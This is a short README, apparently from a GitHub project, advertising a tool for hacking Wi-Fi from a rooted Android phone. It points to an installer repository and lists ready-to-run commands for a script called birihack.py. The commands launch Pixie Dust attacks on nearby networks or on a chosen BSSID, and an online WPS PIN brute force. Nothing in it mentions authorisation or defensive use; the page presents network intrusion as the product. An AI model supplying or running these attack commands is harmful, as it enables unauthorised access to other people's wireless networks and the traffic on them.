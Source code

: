 
# THBD
# Wifi_Hack
You Can H@ck Wifi With Your Rooted Android Device.
# Installation:
### Use Wifi_Hack_Installer Tool.
### Link:
```
https://github.com/Mahfuz-THBD/Wifi_Hack_Installer
```
### Usage examples
### Note:Your Device Must Be Rooted.
1st turn off your Wifi.

Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python birihack.py -i wlan0 -K
 ```

 Start Pixie Dust attack on a specified BSSID:
  
  
```
sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
```
Launch online WPS bruteforce with the specified first half of the PIN:

 ```
 sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
### Troubleshooting
```
"Device or resource busy (-16)"
   Turn on Wifi and Then Turn off Wifi.
  ```
